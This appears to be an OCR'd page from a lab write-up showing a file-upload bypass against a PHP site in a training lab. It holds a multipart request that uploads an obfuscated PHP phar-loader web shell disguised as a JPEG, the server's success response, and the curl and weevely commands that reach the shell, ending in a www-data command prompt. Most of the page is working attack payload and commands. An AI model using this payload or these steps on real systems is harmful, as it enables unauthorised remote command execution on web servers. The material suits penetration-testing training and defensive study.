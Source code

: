 ```http
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------36226146085396895671660538828
Content-Disposition: form-data; name="fileToUpload"; filename="weevely_shell.jpg" 📌
Content-Type: image/jpeg 📌

<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:01:31 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4069



<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a> 📌                   </div>

[...]
```

`curl -X GET https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/weevely_shell.jpg/weevely_shell.php`

`weevely https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/weevely_shell.jpg/weevely_shell.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
[+] Session:    /home/kali/.weevely/sessions/nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/weevely_shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 🚩
www-data@attackdefense.com:/var/www/html/uploads $
```

